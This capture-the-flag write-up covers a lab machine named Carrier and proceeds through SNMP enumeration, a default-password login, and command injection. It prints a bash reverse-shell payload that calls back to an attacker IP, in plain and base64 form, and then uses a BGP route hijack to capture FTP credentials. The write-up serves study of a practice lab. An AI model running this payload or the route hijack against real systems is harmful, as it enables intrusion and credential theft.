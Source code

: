 # Carrier
10.10.10.105

# User
80 port leads to a login page

### Versions
```
PHP Version 7.0.30-0ubuntu0.16.04.1
```

A login page with "Lyghtspeed"

### GoBuster
```
/img
/tools
/css
/js
/debug
/doc
```

On /doc found error_code.pdf

Error 45009 tells me default admin password is set

```
System credentials have not been set Default admin user password is set (see chassis serial number)
```

Decided to enumerate more. So I performed a nmap udp scan.

```
nmap.udp.txt
```

Found an open port 161 that is simple management protocol

By running:

```
snmpwalk -v 2c -c public 10.10.10.105
```

You get the string:

```
SN#NET_45JDX23
```

This gives the login

```
admin
NET_45JDX23
```

Diagnostic page has mention of:

```
zebra
bgpd
watchquagga
```

The verify button sends a parameter known as 'check' but seems to place the value straight into a command

This means we can add a ";" and run our own commands!! Reverse shell time!!!

Payload:
```
; bash -i >& /dev/tcp/10.10.14.55/8000 0>&1
```

Base64 Encoded:
```
OyBiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjU1LzgwMDAgMD4mMQo=
```

Gives us a reverse shell

# ROOT

Netstat:
```
tcp        0      0 10.78.10.1:bgp          10.78.10.2:49462        ESTABLISHED
tcp        0      0 10.99.64.2:ssh          10.99.64.251:52270      ESTABLISHED
tcp        0      0 10.78.11.1:bgp          10.78.11.2:47872        ESTABLISHED
tcp        0      8 10.99.64.2:49350        10.10.14.55:8000        ESTABLISHED
tcp        0      0 10.99.64.2:ssh          10.99.64.251:43758      ESTABLISHED
```

In the ticket information we have mention of

```
..."CastCom. still reporting issues with 3 networks: 10.120.15,10.120.16,10.120.17/24's"...
..."issues connecting by FTP to an important server in the 10.120.15.0/24 network"...
```
This shows the aim of the challenge is to obtain the 'important' ftp traffic

# Networks

```
10.120.15.0/24 
10.120.16.0/24
10.120.17.0/24
```

Scanning for active hosts without nmap
```
for x in {15..17} ; do (for i in {1..254} ;do (ping 10.120.$x.$i -c 1 -w 5  >/dev/null && echo "10.120.$x.$i" &) ;done) ; done
```

### 10.120.15.0/24

```
10.120.15.1
10.120.15.10 # FTP?
```

Nothing active on 10.120.16.0/24 or 10.120.17.0/24?

This whole network is a series of bgp routers


Using the vtysh command shell we can view the route a packet will take to reach the target ftp server

```
$ vtysh -c "show ip bgp"

*  10.120.15.0/24   10.78.10.2                             0 200 300 i
*>                  10.78.11.2               0             0 300 i
```

Running our config.sh script on the system downloads our custom script and restarts the service. **This advertises that we are the shorted route to the ftp server.**

Out overall aim is to impersonate the FTP server

Now was able are able to receive the ftp traffic using ftpd.py giving us:

```
2019-03-15 15-54-01 [-] USER: root
2019-03-15 15-54-01 [-] Received data: PASS BGPtelc0rout1ng
```
 You can now ssh onto 10.120.15.10 and get the root flag!
